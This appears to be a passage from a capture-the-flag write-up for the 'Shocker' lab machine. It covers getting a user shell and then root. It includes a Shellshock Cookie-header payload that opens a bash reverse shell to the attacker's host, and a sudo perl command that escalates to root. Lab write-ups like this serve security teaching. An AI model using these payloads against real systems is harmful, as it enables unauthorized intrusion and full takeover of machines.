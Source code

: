 ## User
To see how shellshock works and hopefully pop a shell we can open burp and go to Proxy > Options > Proxy Listeners and add a new listener on port 8081, setting the redirection to 10.10.10.56 port 80.  
Now, as the proxy is configured, we can connect to the server using 127.0.0.1:8081.  
So, let's start a further nmap scan with the following command.
```
nmap -sV -p8081 --script http-shellshock --script-args uri=/cgi-bin/user.sh,cmd=/bin/ls 127.0.0.1
```
Now, if we do open burp, we can go to HTTP History and see the command execution request generated by the nmap probe.  
We can edit the request as follow and obtain a shell with user shelly.
```
GET /cgi-bin/user.sh HTTP/1.1
Cookie: () { :;}; echo; /bin/bash -i >& /dev/tcp/10.10.14.20/8082 0>&1
Host: localhost:8081
Connection: close
```
Proof:
```
[ root@kali Shocker ]$ nc -lvnp 8082
listening on [any] 8082 ...
connect to [10.10.14.20] from (UNKNOWN) [10.10.10.56] 57644
bash: no job control in this shell
shelly@Shocker:/usr/lib/cgi-bin$ id
id
uid=1000(shelly) gid=1000(shelly) groups=1000(shelly),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
```
## Root
### Method 1 - Sudo GTFOBins
Once we are logged in we can try a ```sudo -l``` and see our sudo capabilities, or with a more methodic approach let's run linPEAS.    
After we run linPEAS we can see the following marked as a highly probable privilege escalation vector:
```
╔══════════╣ Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d                                                     
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid                                           
Matching Defaults entries for shelly on Shocker:                                                                      
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:                                                                
    (root) NOPASSWD: /usr/bin/perl
```
So, if we just [GTFOBins for Perl/sudo](https://gtfobins.github.io/gtfobins/perl/#sudo) we can escalate to root by simply:
```
shelly@Shocker:/usr/lib/cgi-bin$ sudo perl -e 'exec "/bin/sh";'
# id
uid=0(root) gid=0(root) groups=0(root)
```
